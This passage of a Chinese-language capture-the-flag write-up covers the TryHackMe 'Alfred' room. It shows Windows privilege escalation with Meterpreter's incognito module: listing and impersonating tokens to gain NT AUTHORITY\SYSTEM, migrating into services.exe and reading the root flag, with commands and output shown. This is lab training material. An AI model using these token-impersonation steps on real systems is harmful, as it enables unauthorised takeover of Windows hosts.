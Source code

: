 **图 boot2root 机器上的当前特权令牌**

我注意到`SeDebugPrivilege`、`SeChangeNotifyPrivilege`、`SeImpersonatePrivilege`和`SeCreateGlobalPrivilege`设置为“启用”状态。这可以被 Meterpreter 的`incognito`模块利用来进行权限提升。首先，我将列出可以模拟的帐户数量:

```
**meterpreter > use incognito**
Loading extension incognito…Success. 
**meterpreter > list_tokens -g** 
[-] Warning: Not currently running as SYSTEM, not all tokens will be available 
 Call rev2self if primary process token is SYSTEM 

Delegation Tokens Available 
======================================== 
\
BUILTIN\Administrators[... snip ...]**meterpreter >**
```

然后，我使用`incognito`的`impersonate_token`命令获得系统权限:

```
**meterpreter > impersonate_token BUILTIN\\Administrators**
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
 Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

这可以用`getuid`命令来验证:

```
**meterpreter > getuid**
Server username: NT AUTHORITY\SYSTEM
```

该房间注意到当前流程不稳定([“tryhackme”，2019，任务 3](https://tryhackme.com/room/alfred) )，并建议迁移`services.exe`的一个实例作为额外措施:

```
**meterpreter > ps**Process List
============PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
[... snip ...]
 668 580 services.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\services.exe
[... snip ....]**meterpreter > migrate 668**
[*] Migrating from 2708 to 668…
[*] Migration completed successfully.
```

最后，我可以得到`root.txt`标志:

```
**meterpreter > cat C:\\Windows\\System32\\config\\root.txt**
��[redacted]
```

从而完成本实验的所有目标。
